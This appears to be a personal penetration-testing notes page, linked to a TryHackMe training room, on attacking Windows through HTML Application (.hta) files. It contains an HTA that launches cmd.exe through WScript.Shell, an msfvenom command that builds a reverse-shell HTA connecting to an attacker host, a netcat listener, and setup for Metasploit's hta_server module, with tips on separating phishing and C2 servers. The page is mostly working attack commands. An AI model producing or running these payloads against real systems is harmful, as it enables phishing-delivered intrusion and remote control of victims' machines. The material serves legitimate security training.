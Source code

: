 # Exploiting HTML Applications
Windows “HTML Applications” are just HTML files (with the `.hta` extension) containing JavaScript of VBScript. These are interpreted using the `mshta.exe` binary; IE and Edge will both helpfully offer to run these files after they’re downloaded.

A simple example that pops a command prompt:

```html
<html>
	<body>
		<script>
			var command = ‘cmd.exe’
			new ActiveXObject(‘WScript.Shell’).Run(command);
		</script>
	</body>
</html>
```

### Additional Resources
* [TryHackMe: Weaponization](https://tryhackme.com/room/weaponization)

## Using Metasploit
`msfvenom` can be used to generate HTA refer shells.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f hta-psh -o ${NAME}.hta
```

Catch with the standard `nc -lvp $ATTACKER_PORT` command.

Metasploit can do all of this automatically for us via `exploit/windows/misc/hta_server`. Critical variables to set:

* `LHOST` — the host IP address to connect back to
* `LPORT` — the port to connect back to
* `SRVHOST` — the host IP address to serve the malicious file on
* `payload` — the Metasploit payload to use

In quick-and-dirty cases `LHOST` and `SRVHOST `will be the same, though in more sophisticated operations (i.e., if you’re separating phishing and C2 IPs) they will be different. The payload variable is particularly useful, as you can use something like `windows/meterpreter/reverse_tcp` and get a meterpreter shell, rather than just a plain reverse shell!

Note that you may have to hit “Return” once the file is served to get back to the Metasploit prompt.

### Additional Resources
* [TryHackMe: Weaponization](https://tryhackme.com/room/weaponization)
* [Using Metasploit](./Using%20Metasploit.md)
* [Using “netcat”](./Using%20%22netcat%22.md)
